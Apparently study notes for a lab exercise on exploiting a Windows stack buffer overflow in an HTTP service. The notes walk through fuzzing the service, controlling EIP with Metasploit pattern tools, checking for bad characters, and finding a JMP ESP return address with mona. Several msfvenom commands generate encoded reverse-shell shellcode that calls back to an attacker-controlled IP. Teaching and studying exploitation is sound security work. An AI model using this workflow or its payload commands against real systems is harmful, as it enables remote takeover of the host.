# Windows Buffer Overflows

In this example we target an application serving HTTP requests on port 80.

* Use SysInternals TCPview tool to identify process number listneing on port 80.
* Must open Immunity Debugger as administrator.
* File > Attach and attach the running process.
* This will pause program execution, resume it by pressing F9.
* Run the python fuzzer against the application.
* Watch for the overflow as EIP points to 41414141.
* Will crash the application - restart in services.

A fuzzer is eneration-based if it creates malformed application inputs from scratch, following things like file format or network protocol specifications.  
A mutation-based fuzzer changes existing inputs by using techniques like bit-flipping to create a malformed variant of the original input.  
A fuzzer that is aware of the application input format is a smart fuzzer.

### Controlling EIP

To get control of the EIP we need to know exactly where to write into it. Fastest way is to use a pattern and identify the offset in the EIP:  
```bash
locate pattern_create
msf-pattern_create -h

msf-pattern_create -l 800

# Update python script to use the generated payload.
# Crash the program with the payload.
# Note the EIP contents

# Find the offset with the hex in the EIP
msf-pattern_offset -l 800 -q 42306142

# Update the script to load to EIP:
  filler = "A" * 780
  eip = "B" * 4
  buffer = "C" * 16

  inputBuffer = filler + eip + buffer

# Retry and verify EIP contains BBBB.
```

### Shellcode Space

We need around 350-400 bytes of space for our shellcode. To find enough space we can increase the size of the buffer and see if it changes the crash:
```python
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

inputBuffer = filler + eip + offset + buffer
```

We can then overflow again, and identify the last address minus the first address for DDDD to identify the available space.

### Check for Bad Characters

* Iterate using the python script for bad charaters.
* Right click on ESP and View in Dump. Look for the last character before it bombs out.
* Remove that character from the script and repeat.


### Finding a Return Address

* Attach program in Immunity.
* Run !mona modules
* Look for library with no protection flags including NXCompat (DEP protection).
* Look for library with no bad characters in address.  

If DEP is enabled, look for the address in the .text code segment.  

Find the opcode equivalent of JMP ESP:
```bash
msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > 
```

Search for JMP ESP using hex representation in the located library with `mona.py find`. Use `-s` for the escaped hex string, and `-m` for the required module name:  
`!mona find -s "\xff\xe4" -m "libspp.dll"`  

Note the resultant address and check for bad characters: 0x10090c83. We can then click on the 'go to address in dissasembler' button and enter the address. This should result in a JMP ESP instruction.  

The idea is to redirect EIP to this address at time of crash, and the JMP ESP instruction will execute and lead into the shellcode.

Enter the EIP variable to reflect the new address. Note the reversed order due to endianness. In little endian format the low-order byte of the number is stored in memory at the lowest address, and the high-order byte at the highest address. Therefore, we have to store the return address in reverse order in our buffer for the CPU to interpret it correctly in memory.

```python
eip = "\x83\x0c\x09\x10"
```

Use F2 to place a breakpoint at this address to see if it is reached. If reached, press F7 to step into the instruction and we should arrive at our dummy shellcode.

### Generating Shellcode with Metasploit

List the payloads:  
`msfvenom -l payloads`

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.149 LPORT=443 -f c`  
Works pretty easily to generate shellcode, except it will contain bad characters such as null bytes. A polymorphic encoder, shikata_ga_nai can be used to encode shellcode and inform the encoder of known bad characters with `-b`.  

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.149 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`  
(Some will require `-f raw` for a raw output format.)

We have to account for decoding the shellocde. GetPC routines looking ahead mangle some bytes of the decoder itself and crash the target process. Adjusting ESP backwards is another method, or creating a 'landing pad' for the JMP ESP to continue onto the payload. This is done by prepending No OPeration (NOP) instructions. This allows the CPU to slide through the NOPs until the payload is reached. In doing so, the stack pointer is far enough away foom the decoder that it does not corrupt the shellcode when the GetPC routine overwrites a few bytes on the stack.


### Improving the Shellcode

We can use the EXITFUNC=threat option to repeatedly exploit a server by only terminating the affected thread instead of the whole application:  
`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`














